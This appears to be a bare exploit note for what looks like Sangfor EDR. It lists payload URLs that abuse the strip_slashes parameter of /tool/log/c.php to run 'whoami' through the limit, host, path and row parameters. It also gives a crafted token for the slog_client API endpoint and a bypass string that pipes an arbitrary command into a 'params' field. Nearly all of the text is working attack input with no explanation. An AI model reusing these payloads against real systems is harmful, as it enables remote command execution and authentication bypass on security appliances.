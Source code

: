 payload：
https://www.0-sec.org/tool/log/c.php?strip_slashes=system&limit=whoami

https://www.0-sec.org/tool/log/c.php?strip_slashes=system&host=whoami

https://www.0-sec.org/tool/log/c.php?strip_slashes=system&path=whoami

https://www.0-sec.org/tool/log/c.php?strip_slashes=system&row=whoami



https://www.0-sec.org:8443//api/edr/sangforinter/v2/cssp/slog_client?token=eyJyYW5kb20iOiIxIiwgIm1kNSI6ImM0Y2E0MjM4YTBiOTIzODIwZGNjNTA5YTZmNzU4NDliIn0=
绕过:{“params”:”|命令”}